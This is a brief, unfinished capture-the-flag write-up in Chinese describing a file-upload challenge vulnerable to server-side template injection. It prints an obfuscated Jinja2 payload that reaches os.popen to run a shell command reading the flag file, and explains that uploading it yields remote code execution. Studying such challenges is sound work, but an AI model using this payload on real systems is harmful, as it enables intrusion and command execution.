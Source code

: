 
### WEB

#### upload?SSTI

```python
{{lipsum|attr("%c%cglobals%c%c"%(95,95,95,95))|attr("%c%cgetitem%c%c"%(95,95,95,95))("o"+"s")|attr("pop"+"en")("cat /f*")|attr("read")()}}
```

上传带有上述内容的文件，文件在被打开的时候会被渲染模板，借此达到 RCE。

后面懒了，烂尾了。